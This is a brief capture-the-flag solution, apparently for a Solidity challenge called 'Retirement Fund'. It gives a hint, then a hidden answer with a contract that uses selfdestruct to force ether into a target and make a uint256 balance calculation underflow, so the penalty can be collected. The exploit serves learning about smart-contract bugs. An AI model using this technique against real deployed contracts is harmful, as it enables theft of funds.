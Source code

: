 # Retirement Fund

**HINT:** Look at how ```startBalance``` is stored and the ```collectPenalty()`` function works
<details>
<summary>Answer</summary>
<p>

We pretty much abuse the use of uint256 and underflow it turning a negative balance into a positive
```
pragma solidity ^0.7.0;

contract FreeMoney {

    constructor(address payable target) payable {
        require(msg.value > 0);
        selfdestruct(target);
    }
}
```

</p>
</details>